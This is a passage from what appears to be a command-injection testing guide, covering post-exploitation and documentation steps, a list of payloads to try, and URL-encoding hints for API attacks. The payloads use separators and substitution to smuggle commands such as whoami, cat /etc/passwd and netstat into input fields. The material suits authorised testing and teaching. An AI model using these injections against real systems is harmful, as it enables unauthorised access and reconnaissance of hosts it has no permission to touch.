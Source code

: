 4. **Post-exploitation:** 
   - Explore the system and gather information
   - Attempt privilege escalation
   - Test persistence mechanisms

5. **Documentation:** 
   - Record all successful payloads
   - Note different attack vectors
   - Document defensive measures encountered

### Common Payloads to Try

```bash
# Command separators
; whoami
&& id
|| id
| id

# Command substitution
$(whoami)
`id`
${hostname}

# File operations
; cat /etc/passwd
; ls /home
; find /var -name "*.log" 2>/dev/null

# Network reconnaissance
; netstat -tulpn
; ss -tulpn
; cat /proc/net/tcp

# Process enumeration
; ps aux --sort=-%cpu
; top -bn1 | head -20

# System information
; uname -a && cat /etc/os-release
; lscpu && free -h
; df -h && mount
```

### URL Encoding for API Exploitation

When using curl for API attacks, remember to URL encode special characters:

```bash
# Space: %20
# Ampersand: %26
# Pipe: %7C
# Semicolon: %3B
# Greater than: %3E
# Less than: %3C
```
